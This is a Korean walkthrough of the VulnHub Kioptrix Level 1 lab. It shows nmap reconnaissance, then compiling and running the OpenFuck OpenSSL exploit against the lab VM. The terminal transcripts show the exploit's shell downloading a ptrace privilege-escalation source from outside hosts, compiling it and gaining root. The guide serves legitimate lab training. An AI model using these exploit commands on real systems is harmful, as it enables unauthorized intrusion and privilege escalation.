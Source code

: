 # Kioptrix Level 1 (#1)

## Workstation
- Virtual Box : VMware Workstation 16 Player
- OS : kali-linux-2022.01

## Walkthrough
<a href="https://www.vulnhub.com/entry/kioptrix-level-1-1,22/" target="_blank">https://www.vulnhub.com/entry/kioptrix-level-1-1,22/</a>

KIOPTRIX: LEVEL 1 (#1) 에 대한 가상머신은 위 사이트에서 다운받을 수 있다.

해당 가상머신을 다운받은 후 VMware 워크스테이션에서 열어 활성화 시킨다.

![kioptrix level 1](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/kioptrix_level_1.png)

가상머신의 아이피 주소를 알기 위해 `ip addr` 명령어를 사용해 IP 대역을 확인한다.

![ip addr](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/ip_addr.png)

IP 대역을 확인해 보니 192.168.159.0/24 대역을 사용 중이다.

그럼 이 대역에서 사용하는 클라이언트들을 확인하기 위해 `nmap -sn` 명령어를 사용해 확인한다.

![nmap-sn](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/nmap-sn.png)

내 아이피는 `192.168.159.128` 이므로 Kioptrix Level 1의 가상머신 아이피는 `192.168.159.129`이다.

그럼 가상머신에 열려있는 포트와 버전을 알기 위해 `nmap -sT -sV` 명령어로 네트워크 스캔을 한다.

![nmap](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/nmap.png)

80번 포트에 http 서버가 열려있다. 80번 포트에 대한 취약점이 있는지 `searchexploit` 명령어를 버전에 맞게 검색한다.

![searchexploit](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/searchexploit.png)

`OpenSSL/0.9.6b` 에 OpenFuck.c 라는 취약점이 발견됐다. 가장 최신버전인 파일을 `searchexploit -m 47080` 명령어를 사용해 내 디렉터리에 복사해 온다.

![copy](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/copy.png)

복사한 파일을 확인해 보면 다음과 같이 컴파일하라는 명령어가 있다.

![47080](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/47080.png)

그럼 안내해준 명령어를 사용해 해당 파일을 컴파일 한다.

![gcc](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/gcc.png)

컴파일된 파일을 실행해 보면 사용할 수 있는 옵션들이 나오는데, 그 중 취약점으로 발견된 `RedHat Linux apache-1.3.20-16` 에 대한 옵션을 찾는다.

![0x6b](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/0x6b.png)

`0x6b` 옵션을 사용해 가상머신의 루트 권한을 획득해 본다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--15:08:57--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$ 
bash-2.05$ whoami
whoami
apache
bash-2.05$ 
```

루트 권한을 얻지 못하고 apache 권한을 얻었다. 취약점 공격이 실패 해 확인해 보니 Exploit DB에 업로드된 OpenFuck.c 파일이 이전버전으로 루트 권한을 얻지 못했다. 해당 파일은 삭제 후 다른 OpenFuck 파일을 받아 컴파일하여 실행한다.

`git clone https://github.com/heltonWernik/OpenFuck.git`

![git](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/git.png)

![compile](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/compile.png)

다시 컴파일된  실행해 보면 루트 권한을 얻은 쉘을 얻을 수 있다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1/OpenFuck]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40             

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--15:19:17--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

15:19:19 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 6076
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root

```
